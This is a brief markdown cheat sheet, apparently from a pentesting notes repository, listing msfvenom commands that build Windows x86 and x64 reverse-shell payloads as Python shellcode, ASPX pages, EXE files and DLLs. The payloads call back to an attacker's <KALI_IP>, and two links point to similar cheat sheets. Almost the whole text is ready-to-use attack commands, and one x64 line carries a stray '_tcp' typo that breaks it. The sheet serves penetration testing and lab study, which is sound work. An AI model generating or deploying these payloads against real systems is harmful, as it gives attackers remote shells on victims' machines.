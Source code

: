 # Msfvenom

## Windows payloads

### x86

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe

# Dll
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f dll -o revshell.dll
```

#### Bind

```bash
TBD
```

### x64

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x64 -p windows/x64/shell_reverse_tcp _tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe

# Dll
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f dll -o revshell.dll
```

#### Bind

```bash
TBD
```

## Links

- [HackTricks - MSFVenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)
- [infinitelogins - MSFVenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
